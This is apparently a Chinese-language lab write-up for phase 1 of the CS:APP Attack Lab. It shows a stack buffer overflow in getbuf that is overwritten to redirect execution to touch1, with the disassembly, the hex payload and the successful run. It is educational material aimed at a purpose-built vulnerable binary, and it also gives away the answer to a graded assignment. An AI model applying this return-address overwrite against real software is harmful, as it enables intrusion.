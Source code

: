 看到getbuf函数开辟了0x28大小的栈空间

也就是说输入至多0x28个字符，不会有问题。

那么为了达成我们的目的，我们可以前0x28个字符任意输入，后面输入我们希望执行的touch1函数的地址，也就是
0x00000000004017c0

```GAS

(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.

```

这里要用到hex2raw

顾名思义，这个工具是用来将十六进制数值转换成对应的ascii字符。 为什么需要这个工具呢？ 因为我们看到的地址是十六进制，此时我们需要输入某个字符串，让其得到我们预期的十六进制地址。 现在是我们知道十六进制地址，因此可以通过hex2raw反推得到我们需要的字符串。


需要注意的是hex2raw是以EOF作为结束标识的，因此屏幕输入似乎没办法结束，可以使用文件重定向。


因此答案可以是

```

30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
c0 17 40 00

```


最后得到结果

```shell

$ cat level1.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget

```

## phase 2
